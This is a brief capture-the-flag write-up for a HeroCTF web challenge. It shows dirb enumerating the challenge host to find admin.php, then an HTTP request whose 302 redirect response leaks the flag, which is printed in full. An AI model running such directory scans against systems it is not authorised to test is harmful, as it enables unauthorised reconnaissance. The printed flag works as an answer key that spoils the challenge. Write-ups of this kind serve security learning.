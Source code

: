 
Tried to find subpaths with ``dirb``, *admin.php* poped up.

```bash
$ dirb http://chall1.heroctf.fr:9000 ../dirb222/wordlists/common.txt

---- Scanning URL: http://chall1.heroctf.fr:9000/ ----
+ http://chall1.heroctf.fr:9000/admin.php (CODE:302|SIZE:50)
```

A request to *http://chall1.heroctf.fr:9000/admin.php* responsed the flag.

```bash
$ http -v http://chall1.heroctf.fr:9000/admin.php
HTTP/1.1 302 Found
Cache-Control: no-store, no-cache, must-revalidate
Connection: Keep-Alive
Content-Length: 50
Content-Type: text/html; charset=UTF-8
Date: Sun, 25 Apr 2021 01:32:59 GMT
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Keep-Alive: timeout=5, max=100
Location: /index.php?error=You are not admin !
Pragma: no-cache
Server: Apache/2.4.38 (Debian)
Set-Cookie: PHPSESSID=7fc4e7c32c82c736308ee3b54f87c336; path=/
X-Powered-By: PHP/7.2.34

Flag : Hero{r3d1r3c710n_c4n_b3_d4n63r0u5_57395379}
```
